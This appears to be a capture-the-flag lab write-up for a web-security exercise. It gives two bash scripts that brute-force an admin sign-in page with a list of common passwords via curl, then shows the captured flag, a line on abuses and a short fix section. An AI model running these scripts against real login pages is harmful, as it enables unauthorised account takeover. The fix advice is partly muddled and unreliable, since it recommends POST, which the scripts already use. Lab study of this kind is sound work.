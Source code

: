 # Where:
    /?page=signin
# How:

-Run *brute_42_admin.sh ipAddressUsedForSite*:

    #!/bin/bash

    password=(123456 password 12345678 qwerty abc123 123456789 111111 1234567 iloveyou adobe123 123123 Admin 1234567890 letmein photoshop 1234 monkey shadow sunshine 12345 password1 princess azerty trustno1 000000)
    ip="192.168.56.101" && [[ "$1" ]]  && ip="$1"

    for i in ${password[@]}; do
        curl -X POST "http://${ip}/index.php?page=signin&username=admin&password=${i}&Login=Login#" | grep 'flag'
    done

OR

-Run *neat_brute_42_admin.sh ipAddressUsedForSite*:
    #!/bin/bash

    password=(123456 password 12345678 qwerty abc123 123456789 111111 1234567 iloveyou adobe123 123123 Admin 1234567890 letmein photoshop 1234 monkey shadow sunshine 12345 password1 princess azerty trustno1 000000)
    ip="192.168.56.101" && [[ "$1" ]]  && ip="$1"

    for i in ${password[@]}; do
        if curl --silent -X POST "http://${ip}/index.php?page=signin&username=admin&password=${i}&Login=Login#" | grep 'flag';
        then
            echo -e "\nPassword is:\t$i\n"
            exit 1
        fi
    done
    echo -e "\nPassword is not in list\n"

-curl is a tool to transfer data from or to a server, using one of the supported protocols (HTTP, HTTPS, FTP, FTPS, GOPHER, DICT, TELNET, LDAP or FILE).

- *--silent* stops the *workings* outputs so as to only give the final output.

- *-X Post* tells curl we want to make a POST request.

- *ip* is the ip address passed as an ARG.

- We POST *admin* as username and each *i* in the list of passwords as the password.

-We grep the HTML each time to only get the line with the flag.

# Flag:
    b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2

# Possible abuses:

Malicious users can access other accounts.

# Fix:

Better password requirements would make a bruteforce attack a lot more difficult.
Using POST instead of GET also makes it more difficult for malicious users to see how the info is passed.